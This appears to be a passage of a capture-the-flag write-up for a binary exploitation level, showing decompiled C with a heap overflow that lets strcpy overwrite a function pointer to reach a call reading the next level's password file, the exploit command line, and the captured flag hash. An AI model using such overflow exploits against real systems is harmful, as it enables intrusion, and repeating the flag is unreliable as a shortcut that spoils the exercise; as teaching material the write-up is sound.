 ```c
void n(void) // 08048454
{
  system("/bin/cat /home/user/level7/.pass");
  return;
}

void m(void *param_1, int param_2, char *param_3, int param_4, int param_5) // 08048468
{
  puts("Nope");
  return;
}

void main(int argc, char **argv)
{
  char *vuln;
  void **func;
  
  vuln = (char *)malloc(64);
  func = (void **)malloc(4);
  *func = m;
  strcpy(vuln, argv[1]);
  (**func)();
  return;
}
```

We can use exactly the same exploit as in the second exercise, we just need to change the offsets and the `EIP` value. 

```bash
./level6 $(python /tmp/exploit.py)
```

`f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d`
